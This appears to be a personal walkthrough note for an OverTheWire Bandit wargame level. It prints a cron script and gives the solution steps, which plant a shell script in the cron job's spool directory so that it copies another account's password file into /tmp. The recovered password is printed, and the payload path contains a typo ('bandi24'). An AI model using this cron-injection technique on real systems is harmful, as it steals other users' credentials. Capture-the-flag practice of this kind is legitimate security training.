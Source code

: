 - ssh bandit23@bandit.labs.overthewire.org -p2220
- cat /usr/bin/cronjob_bandit24.sh
```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
- nano test.sh
> cat /etc/bandit_pass/bandi24 > /tmp/dofox/pass
- chmod a+x test.sh (**add execute permission to all**)
- touch pass; chmod 666 pass (**make pass file with write permission for all to get the pass written**)
- cp test.sh /var/spool/bandit24 (**copy script to the dir and wait for 1 minute)
- cat pass
> UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

continue to [[level 24]]
